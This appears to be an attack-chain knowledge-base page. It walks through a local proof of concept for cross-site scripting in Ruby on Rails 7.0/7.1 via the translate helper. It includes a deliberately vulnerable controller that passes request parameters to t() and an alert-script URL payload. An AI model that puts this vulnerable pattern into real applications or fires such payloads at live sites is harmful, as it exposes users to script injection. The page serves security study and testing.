

---
tags:
  - xss
  - rails
  - ruby
  - translate
  - action-controller
  - html_safe
type: attack_chain
tools:
  - '[[tools/ruby]]'
  - '[[tools/rails]]'
  - '[[tools/bundle]]'
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Set-Up-Ruby-on-Rails-POC-Environment]]'
  - '[[procedures/Configure-Vulnerable-Rails-Application]]'
  - '[[procedures/Deploy-and-Exploit-XSS-Vulnerability]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:43.937Z'
description: >-
  Demonstrates XSS exploitation in Ruby on Rails 7.0/7.1 using the translate
  method in Action Controller, allowing arbitrary script execution via missing
  keys or unescaped defaults.
skill_level: intermediate
impact_level: high
id: 1f97093e-76d3-4a26-8028-9a129b62071a
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# XSS via Unescaped Translate Method in Rails Action Controller

Multi-stage attack chain demonstrating XSS in Ruby on Rails 7.0 and 7.1 when using the `translate` (t) method in Action Controller with untrusted input via keys ending in '_html' or unescaped defaults, leading to html_safe output and script execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ruby]]
- [[tools/rails]]
- [[tools/bundle]]

### Target Environment

- Ruby on Rails 7.0 or 7.1
- Local development environment (Linux/macOS/Windows with Ruby installed)
- Port 3000 available

### Initial Access Requirements

- Local machine with Ruby >= 3.0
- No network access needed (local PoC)
- Administrative privileges for installing gems

## Detailed Attack Procedures

### Step 1: Environment Setup

procedure: [[procedures/Set-Up-Ruby-on-Rails-POC-Environment]]

**Objective**: Verify Ruby compatibility and create a minimal Rails application for PoC.

**Instructions**: First, check Ruby version using [[commands/ruby-version-check]]:

```bash
ruby -v
```

Expected output: ruby 3.2.2 or compatible. Then create the app with [[commands/rails-new-poc]]:

```bash
rails new rails_server -G -M -O -C -A -J -T
```

Navigate using [[commands/cd-rails-server]]:

```bash
cd rails_server
```

**Expected Output**: Rails app directory created and entered.

**Success Indicators**:
- Ruby version confirmed
- App generated without errors

### Step 2: Configure Vulnerability

procedure: [[procedures/Configure-Vulnerable-Rails-Application]]

**Objective**: Set up routes, controller, and view to expose the translate XSS.

**Instructions**: Edit config/routes.rb to add:

```ruby
get "/articles/missing_key", to: "articles#missing_key"
get "/articles/default", to: "articles#default"
```

Implement app/controllers/articles_controller.rb with:

```ruby
def missing_key
  @message = t(params[:text])
  render :show
end

def default
  @message = t("message_html", default: "<script>alert(location)</script>")
  render :show
end
```

Create app/views/articles/show.html.erb:

```erb
<h1><%= @message %></h1>
<p>View t: <%= t('safe.message_html') %></p>
```

**Expected Output**: Files updated with vulnerable code.

**Success Indicators**:
- Routes configured
- Controller methods added
- View template renders @message

### Step 3: Exploit XSS

procedure: [[procedures/Deploy-and-Exploit-XSS-Vulnerability]]

**Objective**: Start server and trigger XSS via browser.

**Instructions**: Start server with [[commands/bundle-exec-rails-server]]:

```bash
bundle exec rails s
```

Access missing_key: http://127.0.0.1:3000/articles/missing_key?text=%3Cscript%3Ealert(location)%3C/script%3E_html

Access default: http://127.0.0.1:3000/articles/default

**Expected Output**: Alert pops with location on both.

**Success Indicators**:
- Server running on port 3000
- Script execution in browser

## Attack Chain Summary

### Key Achievements

1. PoC setup for Rails translate XSS
2. Exploitation via missing key suffix
3. Exploitation via unescaped default

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
